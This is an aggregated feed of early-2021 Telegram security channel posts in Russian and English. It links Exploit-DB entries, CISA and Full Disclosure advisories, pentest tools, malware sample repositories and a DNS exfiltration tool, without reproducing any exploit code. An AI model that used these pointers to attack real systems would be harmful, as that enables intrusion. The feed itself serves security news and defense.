`2021-01-18 09:31:28`

* https://telegra.ph/file/942302ed9ea9f1c731679.jpg
* https://codeby.net/threads/ujazvimost-cve-2021-3019.76371/
* https://codeby.net/threads/utorrent-cve-2020-8437-obzor-i-ehkspluatacija.75219/
* https://codeby.net/threads/bazovyj-nmap-metody-skanirovanija-i-ispolzovanie-skriptov.75410/
* https://codeby.net/media/radio-kodebaj-15-vypusk.172/

<blockquote>
​​Радио Кодебай. 15 выпуск.

Статьи:
✔️ Уязвимость CVE-2021-3019
✔️ uTorrent CVE-2020-8437 - обзор и эксплуатация
✔️ Базовый nmap: методы сканирования и использование скриптов

Музыка:
✔️ Koan - Alone in Canoe
✔️ Rick Astley - Never Gonna Give You Up
✔️ BLVCK CEILING – recover
✔️ Satanwave - DMT

🔥  Слушать подкаст 🔥

&#35;Radio
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/942302ed9ea9f1c731679.jpg">
https://telegra.ph/file/942302ed9ea9f1c731679.jpg
</a>
</td></tr></table>

---

# sysadm_in_channel
`2021-01-18 04:39:30`

<blockquote>
Best-of-python - a ranked list of awesome Python open-source libraries and tools

 https://github.com/ml-tooling/best-of-python
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/ml-tooling/best-of-python">
https://github.com/ml-tooling/best-of-python
</a>
<blockquote>
🏆 A ranked list of awesome Python open-source libraries and tools. Updated weekly. - ml-tooling/best-of-python
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-17 23:53:31`

<blockquote>
Unvalidated User Input in MS SharePoint 2019 (CVE-2020-1456)
https://www.reddit.com/r/netsec/comments/kzal3u/unvalidated_user_input_in_ms_sharepoint_2019/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/kzal3u/unvalidated_user_input_in_ms_sharepoint_2019/">
https://www.reddit.com/r/netsec/comments/kzal3u/unvalidated_user_input_in_ms_sharepoint_2019/
</a>
<blockquote>
Posted in r/netsec by u/slashcrypto • 4 points and 1 comment
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-17 23:53:26`

<blockquote>
CVE-2020-9971 Abusing XPC Service mechanism to elevate privilege in macOS/iOS
https://www.reddit.com/r/netsec/comments/kz4135/cve20209971_abusing_xpc_service_mechanism_to/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/kz4135/cve20209971_abusing_xpc_service_mechanism_to/">
https://www.reddit.com/r/netsec/comments/kz4135/cve20209971_abusing_xpc_service_mechanism_to/
</a>
<blockquote>
Posted in r/netsec by u/0xdea • 1 point and 1 comment
</blockquote>
</td></tr></table>

---

# isast
`2021-01-17 20:42:57`

* https://please.build/

<blockquote>
Please is a cross-language build system with an emphasis on high performance, extensibility and reproducibility. It supports a number of popular languages and can automate nearly any aspect of your build process.

https://github.com/thought-machine/please

&#35;golang &#35;python &#35;github &#35;tool &#35;monorepo
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/thought-machine/please">
https://github.com/thought-machine/please
</a>
<blockquote>
High-performance extensible build system for reproducible multi-language builds. - thought-machine/please
</blockquote>
</td></tr></table>

---

# R0_Crew
`2021-01-17 19:40:38`

<blockquote>
MASM32 Code collection for reverse engineers https://github.com/Xyl2k/Xylitol-MASM32-snippets &#35;reverse &#35;asm &#35;dukeBarman
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/Xyl2k/Xylitol-MASM32-snippets">
https://github.com/Xyl2k/Xylitol-MASM32-snippets
</a>
<blockquote>
MASM32 Code collection for reverse engineers. Contribute to Xyl2k/Xylitol-MASM32-snippets development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# R0_Crew
`2021-01-17 19:39:13`

<blockquote>
Cumulative Cyclomatic Complexity for Ghidra https://github.com/v-p-b/rabbithole &#35;reverse &#35;ghidra &#35;dukeBarman
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/v-p-b/rabbithole">
https://github.com/v-p-b/rabbithole
</a>
<blockquote>
Cumulative cyclomatic complexity calculation for Ghidra - v-p-b/rabbithole
</blockquote>
</td></tr></table>

---

# webware
`2021-01-17 10:17:00`

* https://telegra.ph/file/6a821df43739236991c14.png

<blockquote>
​​Уязвимость CVE-2021-3019

Добрый день,Уважаемые Форумчане и Друзья. Поздравляю всех с Новым Годом,желаю здоровья и счастья. Но безопасность всегда стоит впереди даже в праздники. И сегодня поговорим об одной из первых уязвимостей нового года.

Читать: https://codeby.net/threads/ujazvimost-cve-2021-3019.76371/

&#35;cve &#35;pentest
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/6a821df43739236991c14.png">
https://telegra.ph/file/6a821df43739236991c14.png
</a>
</td></tr></table>

---

# R0_Crew
`2021-01-17 04:26:02`

<blockquote>
lst2x64dbg was updated. Now it works with  IDA, Ghidra, Binary Ninja, Relyze files, export x64dbg database and radare2 https://github.com/utkonos/lst2x64dbg &#35;reverse &#35;ida &#35;ghidra &#35;binaryninja &#35;radare2 &#35;dukeBarman
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/utkonos/lst2x64dbg">
https://github.com/utkonos/lst2x64dbg
</a>
<blockquote>
Extract labels from IDA, Ghidra, Binary Ninja, and Relyze files and export x64dbg database. Including radare2 main address. - utkonos/lst2x64dbg
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-16 17:53:20`

<blockquote>
CVE-2020-0601: the ChainOfFools attack explained with PoC and a test website.
https://www.reddit.com/r/netsec/comments/kxunm4/cve20200601_the_chainoffools_attack_explained/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/kxunm4/cve20200601_the_chainoffools_attack_explained/">
https://www.reddit.com/r/netsec/comments/kxunm4/cve20200601_the_chainoffools_attack_explained/
</a>
<blockquote>
Posted in r/netsec by u/JustKiddingKids • 4 points and 1 comment
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-01-16 06:59:31`

<blockquote>
&#35;OSINT

https://github.com/Bafomet666/OSINT-SAN
</blockquote>

---

# cibsecurity
`2021-01-16 01:03:44`

* https://threatpost.com/microsoft-implements-windows-zerologon-flaw-enforcement-mode/163104/

<blockquote>
❌ Microsoft Implements Windows Zerologon Flaw ‘Enforcement Mode’ ❌

Starting Feb. 9, Microsoft will enable Domain Controller “enforcement mode” by default to address CVE-2020-1472.

📖 Read

via &quot;Threat Post&quot;.
</blockquote>

<table><tr><td><b>→</b><a href="https://threatpost.com/microsoft-implements-windows-zerologon-flaw-enforcement-mode/163104/">
https://threatpost.com/microsoft-implements-windows-zerologon-flaw-enforcement-mode/163104/
</a>
<blockquote>
Starting Feb. 9, Microsoft will enable Domain Controller “enforcement mode” by default to address CVE-2020-1472.
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-01-15 20:25:21`

<blockquote>
Ladon Scanner For Golang

https://github.com/k8gege/LadonGo
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/k8gege/LadonGo">
https://github.com/k8gege/LadonGo
</a>
<blockquote>
Ladon Pentest Scanner framework  全平台Go开源内网渗透扫描器框架,Windows/Linux/Mac内网渗透，使用它可轻松一键批量探测C段、B段、A段存活主机、高危漏洞检测MS17010、SmbGhost，远程执行SSH/Winrm，密码爆破SMB/SSH/FTP/Mysql/Mssql/Oracle/Winrm/HttpBasic/Redis，端口扫描服务...
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-15 19:53:27`

<blockquote>
Apache Releases Security Advisory for Tomcat
https://us-cert.cisa.gov/ncas/current-activity/2021/01/15/apache-releases-security-advisory-tomcat

via CISA Current Activity
</blockquote>

<table><tr><td><b>→</b><a href="https://us-cert.cisa.gov/ncas/current-activity/2021/01/15/apache-releases-security-advisory-tomcat">
https://us-cert.cisa.gov/ncas/current-activity/2021/01/15/apache-releases-security-advisory-tomcat
</a>
<blockquote>
The Apache Software Foundation has released a security advisory to address a vulnerability affecting multiple versions of Apache Tomcat. An attacker could exploit this vulnerability to obtain sensitive information.   

CISA encourages users and administrators to review the Apache security advisory for CVE-2021-24122 and upgrade to the appropriate version.  
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-15 17:53:18`

<blockquote>
[webapps] Netsia SEBA+ 0.16.1 - Authentication Bypass and Add Root User (Metasploit)
https://www.exploit-db.com/exploits/49435

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49435">
https://www.exploit-db.com/exploits/49435
</a>
<blockquote>
Netsia SEBA+ 0.16.1 - Authentication Bypass and Add Root User (Metasploit).. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-15 17:53:08`

<blockquote>
[webapps] E-Learning System 1.0 - Authentication Bypass &amp; RCE POC
https://www.exploit-db.com/exploits/49434

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49434">
https://www.exploit-db.com/exploits/49434
</a>
<blockquote>
E-Learning System 1.0 - Authentication Bypass &amp; RCE POC.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-15 17:53:07`

<blockquote>
[webapps] Alumni Management System 1.0 - &quot;Last Name field in Registration page&quot; Stored XSS
https://www.exploit-db.com/exploits/49433

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49433?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49433?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Alumni Management System 1.0 - &quot;Last Name field in Registration page&quot; Stored XSS.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2021-01-15 16:35:51`

<blockquote>
Микро-подборка малварных сэмплов и не только

- https://abuse.ch
- https://vx-underground.org/samples.html
- https://thezoo.morirt.com/
- https://dasmalwerk.eu/
- https://github.com/sophos-ai/SOREL-20M
- https://www.malvuln.com
- https://packettotal.com
</blockquote>

<table><tr><td><b>→</b><a href="https://abuse.ch/">
https://abuse.ch/
</a>
<blockquote>
abuse.ch is a non-profit project fighting malware and botnets for the good of the internet
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-15 15:47:49`

<blockquote>
https://github.com/HackerDom/ctfcup-2019-tb
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/HackerDom/ctfcup-2019-tb">
https://github.com/HackerDom/ctfcup-2019-tb
</a>
<blockquote>
CTF Cup 2019. Developed with ♥ by HackerDom team &amp; @revervand - HackerDom/ctfcup-2019-tb
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-15 13:53:37`

<blockquote>
[webapps] EyesOfNetwork 5.3 - File Upload Remote Code Execution
https://www.exploit-db.com/exploits/49432

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49432?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49432?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
EyesOfNetwork 5.3 - File Upload Remote Code Execution.. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-01-15 12:45:47`

<blockquote>
Pentester Swiss Army Knife is a Docker Image with a suite of the most used tools for Hacking and Pentesting.

https://github.com/leoanggal1/P-SAK
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/leoanggal1/P-SAK">
https://github.com/leoanggal1/P-SAK
</a>
<blockquote>
Pentester Swiss Army Knife is a Docker Image with a suite of the most used tools for Hacking and Pentesting.  - leoanggal1/P-SAK
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-15 11:53:42`

<blockquote>
[webapps] Online Hotel Reservation System 1.0 - 'person' time-based SQL Injection
https://www.exploit-db.com/exploits/49431

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49431">
https://www.exploit-db.com/exploits/49431
</a>
<blockquote>
Online Hotel Reservation System 1.0 - 'person' time-based SQL Injection.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-15 11:53:41`

<blockquote>
[webapps] Online Hotel Reservation System 1.0 - Cross-site request forgery (CSRF)
https://www.exploit-db.com/exploits/49430

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49430?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49430?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Online Hotel Reservation System 1.0 - Cross-site request forgery (CSRF).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-15 11:53:40`

<blockquote>
[webapps] Online Hotel Reservation System 1.0 - 'id' Time-based SQL Injection
https://www.exploit-db.com/exploits/49429

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49429?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49429?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Online Hotel Reservation System 1.0 - 'id' Time-based SQL Injection.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-15 11:53:39`

<blockquote>
[webapps] Online Hotel Reservation System 1.0 - 'description' Stored Cross-site Scripting
https://www.exploit-db.com/exploits/49428

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49428">
https://www.exploit-db.com/exploits/49428
</a>
<blockquote>
Online Hotel Reservation System 1.0 - 'description' Stored Cross-site Scripting.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-15 11:53:38`

<blockquote>
[webapps] WordPress Plugin Easy Contact Form 1.1.7 - 'Name' Stored Cross-Site Scripting (XSS)
https://www.exploit-db.com/exploits/49427

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49427?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49427?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
WordPress Plugin Easy Contact Form 1.1.7 - 'Name' Stored Cross-Site Scripting (XSS).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-15 11:53:36`

<blockquote>
[webapps] PHP-Fusion CMS 9.03.90 - Cross-Site Request Forgery (Delete admin shoutbox message)
https://www.exploit-db.com/exploits/49426

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49426">
https://www.exploit-db.com/exploits/49426
</a>
<blockquote>
PHP-Fusion CMS 9.03.90 - Cross-Site Request Forgery (Delete admin shoutbox message).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2021-01-15 11:14:38`

<blockquote>
Агентство национальной безопасности СЩА заявило, что DoH не полностью препятствует злоумышленникам видеть трафик пользователя несмотря на то, что его можно использовать для обхода отслеживания классического трафика DNS

 https://www.zdnet.com/google-amp/article/nsa-warns-against-using-doh-inside-enterprise-networks/

Кроме того, бесплатные инструменты, выложенные на GitHub, также сделали тривиальным перехват зашифрованных соединений DoH:

DNSExfiltrator: Data exfiltration over DNS request covert channel

 https://github.com/Arno0x/DNSExfiltrator
</blockquote>

<table><tr><td><b>→</b><a href="https://www.zdnet.com/google-amp/article/nsa-warns-against-using-doh-inside-enterprise-networks/">
https://www.zdnet.com/google-amp/article/nsa-warns-against-using-doh-inside-enterprise-networks/
</a>
<blockquote>
The NSA urges companies to host their own DoH resolvers and avoid sending DNS traffic to third-parties.
</blockquote>
</td></tr></table>

---

# MPSIEMChat
`2021-01-15 10:17:55`

<blockquote>
Можно попробовать взять за основу конфиг вот отсюда: https://github.com/SwiftOnSecurity/sysmon-config
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/SwiftOnSecurity/sysmon-config">
https://github.com/SwiftOnSecurity/sysmon-config
</a>
<blockquote>
Sysmon configuration file template with default high-quality event tracing - SwiftOnSecurity/sysmon-config
</blockquote>
</td></tr></table>

---

# infobezopasnost
`2021-01-14 19:00:11`

<blockquote>
https://youtu.be/YQY-kvB8SwQ
</blockquote>

<table><tr><td><b>→</b><a href="https://youtu.be/YQY-kvB8SwQ">
https://youtu.be/YQY-kvB8SwQ
</a>
<blockquote>
Сколько зарабатывают специалисты по информационной безопасности? Как стать пентестером/специалистом ИБ? В видео описаны основные шаги, с помощью которых вы получите необходимое для того, чтобы начать свой путь в Информационную безопасность.

На моем канале вы найдете еженедельные КиберНовости о технологиях, анонимности и пентестинге, а также туториалы и трюки по информационной безопасности.

https://github.com/husnainfareed/Resources-for-learning-ethical-hacking/
https://www.owasp.org/index.php/
http://h1.nobbd.de/

Вся информация предоставлена в ознакомительных целях. Я не призываю никого нарушать закон. Все персонажи являются вымышленными и любое совпадение с людьми и событиями - случайно.

HD and 4K available www.natureclip.co.uk
https://www.videvo.net
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-14 18:53:44`

<blockquote>
RCE Vulnerability Affecting Microsoft Defender
https://us-cert.cisa.gov/ncas/current-activity/2021/01/14/rce-vulnerability-affecting-microsoft-defender

via CISA Current Activity
</blockquote>

<table><tr><td><b>→</b><a href="https://us-cert.cisa.gov/ncas/current-activity/2021/01/14/rce-vulnerability-affecting-microsoft-defender">
https://us-cert.cisa.gov/ncas/current-activity/2021/01/14/rce-vulnerability-affecting-microsoft-defender
</a>
<blockquote>
Microsoft has released a security advisory to address a remote code execution vulnerability, CVE-2021-1647, in Microsoft Defender. A remote attacker can exploit this vulnerability to take control of an affected system. This vulnerability was detected in exploits in the wild.

CISA encourages users and administrators to review Microsoft Advisory for CVE-2021-1647 and apply the necessary updates. 
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-14 11:53:38`

<blockquote>
[webapps] Cisco RV110W 1.2.1.7 - 'vpn_account' Denial of Service (PoC)
https://www.exploit-db.com/exploits/49425

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49425">
https://www.exploit-db.com/exploits/49425
</a>
<blockquote>
Cisco RV110W 1.2.1.7 - 'vpn_account' Denial of Service (PoC). CVE-2021-1167 . webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-14 11:53:37`

<blockquote>
[webapps] Laravel 8.4.2 debug mode - Remote code execution
https://www.exploit-db.com/exploits/49424

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49424">
https://www.exploit-db.com/exploits/49424
</a>
<blockquote>
Laravel 8.4.2 debug mode - Remote code execution. CVE-2021-3129 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-14 11:53:33`

<blockquote>
[webapps] Online Shopping Cart System 1.0 - 'id' SQL Injection
https://www.exploit-db.com/exploits/49423

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49423">
https://www.exploit-db.com/exploits/49423
</a>
<blockquote>
Online Shopping Cart System 1.0 - 'id' SQL Injection.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-14 11:53:32`

<blockquote>
[webapps] Nagios XI 5.7.X - Remote Code Exection RCE (Authenticated)
https://www.exploit-db.com/exploits/49422

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49422">
https://www.exploit-db.com/exploits/49422
</a>
<blockquote>
Nagios XI 5.7.X - Remote Code Exection RCE (Authenticated). CVE-2020-35578 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-14 11:53:31`

<blockquote>
[webapps] Online Movie Streaming 1.0 - Admin Authentication Bypass
https://www.exploit-db.com/exploits/49421

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49421?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49421?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Online Movie Streaming 1.0 - Admin Authentication Bypass.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-13 20:53:33`

<blockquote>
[webapps] Online Hotel Reservation System 1.0 - Admin Authentication Bypass
https://www.exploit-db.com/exploits/49420

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49420">
https://www.exploit-db.com/exploits/49420
</a>
<blockquote>
Online Hotel Reservation System 1.0 - Admin Authentication Bypass.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-13 17:53:27`

<blockquote>
[remote] Erlang Cookie - Remote Code Execution
https://www.exploit-db.com/exploits/49418

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49418">
https://www.exploit-db.com/exploits/49418
</a>
<blockquote>
Erlang Cookie - Remote Code Execution.. remote exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-13 16:53:29`

<blockquote>
https://github.com/zmap/zmap/wiki
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/zmap/zmap/wiki">
https://github.com/zmap/zmap/wiki
</a>
<blockquote>
ZMap is a fast single packet network scanner designed for Internet-wide network surveys. - zmap/zmap
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-13 15:53:11`

<blockquote>
SEC Consult SA-20210113-1 :: Multiple vulnerabilities in flatCore CMS
https://seclists.org/fulldisclosure/2021/Jan/40

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/40">
https://seclists.org/fulldisclosure/2021/Jan/40
</a>
</td></tr></table>

---

# defcon_news
`2021-01-13 14:53:23`

<blockquote>
SEC Consult SA-20210113-0 :: Multiple vulnerabilities in Pepperl+Fuchs IO-Link Master Series
http://seclists.org/fulldisclosure/2021/Jan/39

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/39">
https://seclists.org/fulldisclosure/2021/Jan/39
</a>
</td></tr></table>

---

# webware
`2021-01-13 08:10:18`

<blockquote>
Добрый вечер, с разрешения админа скину в чатик тулзу для коллаборации тестирований на проникновение (аналог dradis/faraday). Позволяет менеджерить проекты пентеста внутри команды, есть совместимость с 10 тулзами (+burp плагин). Опенсорсная, портативная и кроссплатформенная. Также можно запустить бесплатно в облаке heroku в один клик. В целом на противостоянии может помочь когда много людей из команды ковыряют одну инфраструктуру (+ генерация отчетов по произвольному шаблону). Если есть вопросы/предложения, то лучше в лс.

https://gitlab.com/invuls/pentest-projects/pcf
</blockquote>

<table><tr><td><b>→</b><a href="https://gitlab.com/invuls/pentest-projects/pcf">
https://gitlab.com/invuls/pentest-projects/pcf
</a>
<blockquote>
Opensource, cross-platform and portable toolkit for automating routine processes when carrying out various works for testing!
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-13 06:53:21`

<blockquote>
Backdoor.Win32.Zombam.a / Remote Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/38

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/38">
https://seclists.org/fulldisclosure/2021/Jan/38
</a>
</td></tr></table>

---

# defcon_news
`2021-01-13 06:53:19`

<blockquote>
Backdoor.Win32.Levelone.b / Remote Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/37

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/37">
https://seclists.org/fulldisclosure/2021/Jan/37
</a>
</td></tr></table>

---

# defcon_news
`2021-01-13 06:53:19`

<blockquote>
Backdoor.Win32.Levelone.a / Remote Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/36

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/36">
https://seclists.org/fulldisclosure/2021/Jan/36
</a>
</td></tr></table>

---

# defcon_news
`2021-01-13 06:53:17`

<blockquote>
Backdoor.Win32.Ketch.b / Remote Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/35

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/35">
https://seclists.org/fulldisclosure/2021/Jan/35
</a>
</td></tr></table>

---

# defcon_news
`2021-01-13 06:53:16`

<blockquote>
Re: Backdoor.Win32.Xtreme.yvp / Insecure Permissions EoP
https://seclists.org/fulldisclosure/2021/Jan/34

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/34">
https://seclists.org/fulldisclosure/2021/Jan/34
</a>
</td></tr></table>

---

# defcon_news
`2021-01-13 06:53:15`

<blockquote>
Advisory: ES2021-01 - Loopback access control bypass in coturn by using 0.0.0.0, [::1] or [::] as the peer address
https://seclists.org/fulldisclosure/2021/Jan/33

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/33">
https://seclists.org/fulldisclosure/2021/Jan/33
</a>
</td></tr></table>

---

# defcon_news
`2021-01-13 06:53:13`

<blockquote>
Re: Trovent Security Advisory 2010-01 [updated] / CVE-2020-28208: Rocket.Chat email address enumeration vulnerability
https://seclists.org/fulldisclosure/2021/Jan/32

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/32">
https://seclists.org/fulldisclosure/2021/Jan/32
</a>
</td></tr></table>

---

# defcon_news
`2021-01-13 06:53:12`

<blockquote>
Envira Gallery - Lite Edition - Version 1.8.3.2 CVE-2020-35581 CVE-2020-35582
http://seclists.org/fulldisclosure/2021/Jan/31

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/31">
https://seclists.org/fulldisclosure/2021/Jan/31
</a>
</td></tr></table>

---

# defcon_news
`2021-01-13 06:53:11`

<blockquote>
Multiple vulnerabilities found in FiberHome HG6245D routers
https://seclists.org/fulldisclosure/2021/Jan/30

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/30">
https://seclists.org/fulldisclosure/2021/Jan/30
</a>
</td></tr></table>

---

# defcon_news
`2021-01-13 06:53:10`

<blockquote>
Re: Backdoor.Win32.NinjaSpy.c / Remote Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/29

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/29">
https://seclists.org/fulldisclosure/2021/Jan/29
</a>
</td></tr></table>

---

# sysadm_in_channel
`2021-01-13 04:27:04`

<blockquote>
Microsoft Defender Remote Code Execution Vulnerability

Уязвимость активно эксплуатируется

https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1647
</blockquote>

<table><tr><td><b>→</b><a href="https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1647">
https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1647
</a>
<blockquote>
The Microsoft Security Response Center (MSRC) investigates all reports of security vulnerabilities affecting Microsoft products and services, and provides the information here as part of the ongoing effort to help you manage security risks and help keep your systems protected.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-13 02:53:12`

<blockquote>
U.S. Dept Of Defense: Sensitive data exposure via https://███████/secure/QueryComponent!Default.jspa - CVE-2020-14179
https://vulners.com/hackerone/H1:1067004?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss

via Vulners
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1067004?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1067004?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Summary: Information Disclosure vulnerability in outdated Jira. Description: Affected versions of Atlassian Jira Server and Data Center allow remote, unauthenticated attackers to view custom field names and custom SLA names via an Information Disclosure vulnerability in the /secure/QueryComponent!Default.jspa endpoint. Step-by-step Reproduction Instructions 1.Go to   https:// ███/secure/QueryComponent!Default.jspa to view exposed information in any web browser.  Product, Version, and Configuration The affected versions are before version 8.5.8, and from version 8.6.0 before 8.11.1. Suggested Mitigation/Remediation Actions Update affected Jira version according to vendor instructions. Impact Unauthenticated attackers to view custom Jira field names and custom SLA...
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-12 23:53:36`

<blockquote>
Details about CVE-2020-26262, bypass of Coturn's default access control protection
https://www.reddit.com/r/netsec/comments/kv3kyd/details_about_cve202026262_bypass_of_coturns/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/kv3kyd/details_about_cve202026262_bypass_of_coturns/?utm_source=ifttt">
https://www.reddit.com/r/netsec/comments/kv3kyd/details_about_cve202026262_bypass_of_coturns/?utm_source=ifttt
</a>
<blockquote>
Posted in r/netsec by u/EnableSecurity • 3 points and 0 comments
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-01-12 15:48:40`

<blockquote>
Arbore (github.com/MichaelMure/Arbore) - приложение для децентрализованного обмена файлами. Закрывающая проблему защиты от СОРМ и DLP систем
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/MichaelMure/Arbore">
https://github.com/MichaelMure/Arbore
</a>
<blockquote>
Friend-to-friend filesharing app to save the world from dystopia  - MichaelMure/Arbore
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-12 14:53:28`

<blockquote>
[webapps] SmartAgent 3.1.0 - Privilege Escalation
https://www.exploit-db.com/exploits/49415

